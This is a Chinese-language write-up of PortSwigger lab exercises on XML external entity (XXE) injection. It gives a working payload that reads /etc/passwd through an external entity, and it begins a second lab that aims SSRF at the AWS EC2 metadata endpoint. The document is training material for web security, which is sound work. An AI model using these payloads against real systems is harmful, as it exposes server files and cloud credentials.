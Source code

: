 ```yaml
---
title: XML external entity (XXE) injection
description: XML external entity (XXE) injection
last_update:
  date: "2025-08-27T08:00:00+08:00"
---
```


## Lab: Exploiting XXE using external entities to retrieve files

| Dimension | Description                                                                   |
| --------- | ----------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files     |
| Lab       | https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files |

先看一下正常的 XML Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

替換成

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <storeId>1</storeId>
    <productId>&xxe;</productId>
</stockCheck>
```

## Lab: Exploiting XXE to perform SSRF attacks

| Dimension | Description                                                                     |
| --------- | ------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks |
| Lab       | https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf     |

這題要用 SSRF 去偷 AWS EC2 Metadata `http://169.254.169.254/`，但我之前沒用 EC2 戳過，所以不知道格式是什麼

總之這個 Endpoint 回傳的資料格式有點類似 Directory Listing 的結果，沒有任何點綴，單純就是字串用 `\n` 切開，例如

```
hello
world
```
